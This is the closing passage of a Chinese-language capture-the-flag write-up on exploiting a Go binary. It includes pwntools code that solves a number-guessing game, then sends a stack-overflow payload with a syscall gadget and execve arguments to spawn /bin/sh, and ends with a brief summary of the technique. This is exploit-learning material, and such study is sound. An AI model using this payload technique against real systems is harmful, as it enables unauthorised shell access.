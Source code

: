 ```python
def suggestedNum(answerSet,lvl):
   suggestedNum=''
   delCountMax=0
   if len(answerSet) > lvl:
      suggestedNum = list(answerSet)[0]
   else:
      for inputStr in answerSet:
         delCount = 0
         for answerStr in answerSet:
            A,B = compareAnswer1(inputStr, answerStr)
            delCount += answerSetDelNum(answerSet, inputStr,A,B)
         if delCount > delCountMax:
            delCountMax = delCount
            suggestedNum = inputStr
         if delCount == delCountMax:
            if suggestedNum == '' or int(suggestedNum) > int(inputStr):
               suggestedNum = inputStr
 
   return suggestedNum
 
 
ru("PLEASE INPUT A NUMBER:")
p.sendline("1717986918")
ru("PLEASE INPUT A NUMBER:")
p.sendline("1234") 
# gdb.attach(p)
# p.sendline("305419896")
# p.interactive()
# p.interactive()
ru("YOU HAVE SEVEN CHANCES TO GUESS")
guessTrainner()
sa("AGAIN OR EXIT?","exit")
gdb.attach(p)
sla("(4) EXIT","4")
syscall = 0x47CF05
# syscall = 0x000000000042c066
binsh = 0xc0000be000

payload = '/bin/sh\x00'*0x8c + p64(syscall) + p64(0) + p64(59) + p64(binsh) + p64(0) + p64(0)
 
sla("ARE YOU SURE?",payload)
p.interactive()
 

```
### 总结

第一次接触golang的pwn，由于复杂的panic利用方式目前就是栈溢出，关于栈的部分和x86_64的栈大同小异，如果能克服反编译代码带来的不适，找到漏洞点，那么利用起来还是比较简单的。

### refer
